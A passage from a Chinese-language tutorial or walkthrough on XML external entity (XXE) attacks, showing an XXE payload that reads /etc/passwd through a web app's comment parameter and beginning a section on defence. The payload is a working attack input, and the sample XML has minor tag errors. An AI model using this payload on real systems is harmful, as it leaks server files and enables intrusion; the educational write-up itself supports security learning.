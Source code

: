 我们可以看到 web 应用程序将“Hello”值存储在一个名为 *xml* 的变量中。这暗示了它可以接受 XML 代码作为输入的可能性。

在做了一些枚举之后，我已经设法获得了添加注释的正确 XML 结构，如下所示:

```
<comment>
 <name>Name</name>
 <author>Author</name>
 <com>Comment</com>
</comment>
```

因此，记住这一点，让我们用下面的代码来更改 *xml* 参数值:

```
<?xml version="1.0"?>
<!DOCTYPE payload [
<!ENTITY malicious SYSTEM "file:///etc/passwd">
]>
<comment>
<name>&malicious</name>
<author>Barry</author>
<com>The comment</com>
</comment>
```

有效载荷应该不难理解。我们已经将*恶意的*定义为一个外部实体，我们将文件`file:///etc/passwd`的内容作为它的值与之相关联。

当 XML 解析器到达`&malicious;`时，它将在它的位置加载`/etc/passwd`的内容，从而泄露来自 web 服务器的敏感信息，如下图所示。

![](img/036c21f6faa2354892715b4971c34662.png)

## 如何防范 XXE 袭击

幸运的是，XXE 的攻击并不总是有效的。他们的成功需要目标网站上的错误配置。因此，通过确保我们的网站没有这些糟糕的配置设置，我们可以降低 XXE 攻击的风险。
